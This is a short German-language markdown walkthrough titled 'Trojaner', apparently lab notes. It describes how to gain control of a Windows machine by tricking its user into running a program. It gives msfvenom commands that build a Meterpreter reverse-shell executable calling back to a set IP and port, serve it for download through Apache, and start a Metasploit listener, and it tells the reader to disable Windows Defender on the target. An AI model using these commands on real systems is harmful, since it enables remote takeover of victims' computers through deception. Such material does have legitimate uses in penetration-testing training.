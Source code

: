 ```yaml
---
title: Trojaner
---
```




Ziel: Kontrolle über das Opfersystem (Windows) erlangen durch eine reverse shell. Der Windows User muss (durch einen Trick) dazu gebracht werden ein Programm zu starten.



# Apache

Auf Kali Dateien über Apache Web Server zum Download bereitstellen

```sh
$ service apache2 start	
```

Test ob Apache Webserver läuft:

```sh
$ netstat -tlpn | grep 80
```



# Windows

- Windows Defender dauerhaft deaktivieren
- Windows Firewall kann aktiv bleiben



# Reverse shell

Erzeugen mit msfvenom eine Programm das eine reverse shell zur Verfügung stellt. Beim Starten baut dieses Programm eine Verbindung mit der angegebenen IP und Portnummer auf.

Port 8080, TCP:

```sh
$ msfvenom -p windows/meterpreter_reverse_tcp LHOST=192.168.178.81 LPORT=8080 -f exe -o mp_tcp_rev_shell_8080.exe
$ cp mp_tcp_rev_shell_8080.exe /var/www/html
```

`http://192.168.178.81/mp_tcp_rev_shell_8080.exe`

Listener unter Metasploit:

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.178.81
set lport 8080
run
```
